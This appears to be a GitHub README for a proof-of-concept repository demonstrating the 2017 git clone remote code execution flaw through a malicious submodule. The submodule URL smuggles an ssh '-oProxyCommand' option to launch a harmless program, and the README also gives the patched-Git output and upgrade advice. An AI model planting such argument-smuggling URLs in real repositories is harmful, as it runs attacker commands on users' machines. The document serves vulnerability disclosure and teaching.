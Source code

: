 # Git clone RCE

This repo is an example of `git clone` vulnerability described in http://blog.recurity-labs.com/2017-08-10/scm-vulns using a git submodule.

To see it in action, simply clone the repo using:
```
git clone git@github.com:disconnect3d/git_clone_rce_calc.git --recursive
```
The recursive part is crucial as git **must** try to clone the malicious git submodule url.
This will launch a `gnome-terminal` on your machine.

### To be safe
**Upgrade your Git to 2.14.1 as stated in [git's release notes](https://raw.githubusercontent.com/git/git/master/Documentation/RelNotes/2.14.1.txt).**

After updating the issue is gone:
```
$ git clone git@github.com:disconnect3d/git_clone_rce_calc.git --recursive
Cloning into 'git_clone_rce_calc'...
remote: Counting objects: 15, done.
remote: Compressing objects: 100% (15/15), done.
remote: Total 15 (delta 3), reused 3 (delta 0), pack-reused 0
Receiving objects: 100% (15/15), done.
Resolving deltas: 100% (3/3), done.
Checking connectivity... done.
Submodule 'git_calc_rce' (ssh://-oProxyCommand=gnome-calculator/wat) registered for path 'git_calc_rce'
Cloning into 'git_calc_rce'...
fatal: strange hostname '-oProxyCommand=gnome-calculator' blocked
fatal: clone of 'ssh://-oProxyCommand=gnome-calculator/wat' into submodule path 'git_calc_rce' failed
```
